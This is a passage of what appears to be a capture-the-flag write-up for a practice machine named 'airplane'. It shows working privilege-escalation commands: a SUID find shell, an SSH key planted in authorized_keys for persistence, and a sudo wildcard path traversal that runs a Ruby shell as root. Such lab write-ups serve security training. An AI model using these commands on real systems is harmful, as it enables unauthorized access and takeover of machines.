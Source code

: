 We can use the command from [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) to get a shell as `carlos`.

```console
hudson@airplane:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
$ id
uid=1001(hudson) gid=1001(hudson) euid=1000(carlos) groups=1001(hudson)
```

Same as before, we can write to `authorized_keys` to get a better shell.

```console
$ echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICmoQnk7E5HqYlAGSHEFJIS46QbkcopF80bN4LTmCmkL kali@kali >> /home/carlos/.ssh/authorized_keys
$ chmod 600 /home/carlos/.ssh/authorized_keys
```

After using SSH to get a shell, we can read the user flag.

```console
$ ssh -i id_ed25519 carlos@airplane.thm
carlos@airplane:~$ wc -c user.txt
33 user.txt
```

## Shell as root

### Path Traversal in Sudo Command

Checking the sudo privileges for the `carlos` user, we are able to run `/usr/bin/ruby /root/*.rb` as root.

```console
carlos@airplane:~$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```

Wildcard (\*) in the sudo command allows us to put anything between `/root/` and `.rb`.

We can abuse this with a path traversal payload to run any `ruby` script we want.

First, creating a `ruby` script that will spawn a shell.

```console
carlos@airplane:~$ echo 'exec "/bin/sh"' > /tmp/shell.rb
```

Now, using a path traversal payload, we run our `ruby` script to get shell as `root` and can read the root flag.

```console
carlos@airplane:~$ sudo /usr/bin/ruby /root/../tmp/shell.rb
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
33 /root/root.txt
```
